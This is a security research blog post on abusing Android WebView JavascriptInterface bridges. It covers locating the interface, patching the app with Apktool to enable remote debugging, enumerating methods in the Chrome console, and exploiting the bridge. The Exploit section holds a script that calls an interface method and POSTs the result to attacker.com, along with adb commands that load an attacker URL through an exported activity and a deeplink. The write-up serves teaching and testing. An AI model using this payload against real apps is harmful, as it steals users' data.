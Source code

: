 ```yaml
---
title: WebView and JavaScript bridge
description: >-
  While researching on android WebView vulnerabilities We got to know most of
  the mobile application uses WebView JavaScript bridge called…
date: '2021-01-09T20:53:59.588Z'
categories: []
keywords: []
slug: ''
---
```


While researching on android WebView vulnerabilities We got to know most of the mobile application uses WebView JavaScript bridge called JavascriptInterface in WebView.

JavascriptInterface allows the Java object’s methods to be accessed from JavaScript. For applications targeted to API level Build.VERSION\_CODES.JELLY\_BEAN\_MR1

class JsObject {  
    @JavascriptInterface  
    public String toString() { return "injectedObject"; }  
 }  
 webview.getSettings().setJavaScriptEnabled(true);  
 webView.addJavascriptInterface(new JsObject(), "injectedObject");  
 webView.loadData("", "text/html", null);  
 webView.loadUrl("javascript:alert(injectedObject.toString())");

**Vulnerability** 

> As the object is exposed to all the frames in WebView ,hence any frame can get object name and call methods on it.

**Steps to Identify If Android Application is using JavascriptInterface**

1.  The below command can be used to identify the presence of the JavascriptInterface (in the source code after decompiling the app )

$ grep -r -n -i "addJavascriptInterface" 

‌If the code built for API 17 (or above) and includes the ‘@JavascriptInterface’ annotation (The @JavascriptInterface annotation was introduced in Android 4.2, [JELLY\_BEAN\_MR1](https://android-developers.blogspot.com/2013/02/security-enhancements-in-jelly-bean.html) (Security Enhancements in Jelly Bean) to limit exposure to the reflection attack.)

$ grep -r -i "\\@JavascriptInterface"

2\. Or Simply Obtain the Source code of application and search for keyword “addJavascriptInterface” 

![](https://cdn-images-1.medium.com/max/800/1*iINomQ0HSGnkIqNsjByNwQ.png)
undefined

  

**Remote Debugging of Identified JavaScript Interface**

Once JavaScript Identified we can now examine the Interface using [Remote Debugging WebViews](https://developers.google.com/web/tools/chrome-devtools/remote-debugging/webviews) where remote debugging will connect to the WebView running on android device using Chrome and we can use Chrome’s developer console to test the javascriptinterface in WebView

For that **“setWebContentsDebuggingEnabled”** setting on the application should be enabled. 

If **“setWebContentsDebuggingEnabled”** was not enabled follow below steps to enble the **“setWebContentsDebuggingEnabled”** 

1.  Reverse the application using [Apktool](https://ibotpeaches.github.io/Apktool/)
2.  Add below code snippet into the bytecode of the application, ideally before any other bytecode executes. A suitable place will be entry point of classes of the app, e.g. the Main Activity of the application

```
const/4 v1, 0x01invoke-static {v1}, Landroid/webkit/WebView;->setWebContentsDebuggingEnabled(Z)V
```

3\. And rebuild the application using Apktool 

Now we can connect our Android Device WebView remotely to our chrome browser by navigating to “**chrome://inspect**”

The chrome://inspect page displays a list of debug-enabled WebView's on your device. To start debugging, click inspect below the WebView.

![](https://cdn-images-1.medium.com/max/800/1*V41J9D3N7z-UptTJG7elIA.png)

Now we can inspect every element of WebView in browser 

**Enumeration of Javascript Interface** 

Now we have the console of application WebView , we can list the all elements including JavaScript Interface using below console command

Object.getOwnPropertyNames(window).forEach(function(v, x) { console.log(v); });

![](https://cdn-images-1.medium.com/max/800/1*hGEbzVcwAOSateGJMOVU5g.png)

Now to retrieve the methods of listed elements use below console command 

Object.getOwnPropertyNames(window.**Nameoftheelement**).forEach(function(v, x) { console.log(v); });

![](https://cdn-images-1.medium.com/max/800/1*inJOu1ixFDOLCA1XnbZojg.png)

Once you have the list of all elements and methods you can call them 

document.write(Interfacename.JSON())

**Exploit**

For exploit, attackers needs to identify the way to load attacker-controlled URL in application WebView, where an attacker can host the below HTML with Identified JavaScript Interface 

<script>

x=Interfacename.Method()  //Vulnerable Interface name and Method  
send(x)

function send(data){  
var xhr = new XMLHttpRequest();  
 xhr.open("POST", "[https://attacker.com/](https://postb.in/1602795714465-0842880969867)", true);   
 xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");  
 xhr.send(data);

}</script>

**Using Exported Activity (Loading Arbitrary URL in WebView)**

adb shell am start -n com.vulnerableclass/VulnerableActivity -d “[https://attacker.com](https://attacker.com)"

**Using Vulnerable Deeplink**

adb shell am start  
        -W -a android.intent.action.VIEW  
        -d "example://gizmoslogin/?url=[http://attacker.com/](http://attacker.com/)" com.example.android

**Using URL** 

Attacker and Add the URL in application using functionality provided by application for e.g. share the URL to multiple Users etc.

Using Above steps you can find the JavaScript Interface elements and with help of them leak the information of WebView 

**Reference**

[**Abusing WebViews to Steal Files via Email**  
_A few months ago, I was testing the email functionality on a company's contact us page, when I sent an email to myself…_carvesystems.com](https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/ "https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/")[](https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/)

[**Remote Debugging WebViews | Chrome DevTools | Google Developers**  
_"type": "thumb-down", "id": "missingTheInformationINeed", "label":"Missing the information I need" },{ "type"…_developers.google.com](https://developers.google.com/web/tools/chrome-devtools/remote-debugging/webviews "https://developers.google.com/web/tools/chrome-devtools/remote-debugging/webviews")[](https://developers.google.com/web/tools/chrome-devtools/remote-debugging/webviews)

[**Abusing WebViews to Steal Files via Email**  
_A few months ago, I was testing the email functionality on a company's contact us page, when I sent an email to myself…_carvesystems.com](https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/ "https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/")[](https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/)

[**WebView addJavascriptInterface Remote Code Execution**  
_Recently we have been researching vulnerabilities within cross platform mobile application development frameworks…_labs.f-secure.com](https://labs.f-secure.com/archive/webview-addjavascriptinterface-remote-code-execution/ "https://labs.f-secure.com/archive/webview-addjavascriptinterface-remote-code-execution/")[](https://labs.f-secure.com/archive/webview-addjavascriptinterface-remote-code-execution/)

[**Twitter disclosed on HackerOne: Twitter lite(Android): Vulnerable...**  
_Summary:\*\* com.twitter.android.lite.TwitterLiteActivity is set to exported and doesn't validate data pass to intent due…_hackerone.com](https://hackerone.com/reports/499348 "https://hackerone.com/reports/499348")[](https://hackerone.com/reports/499348)
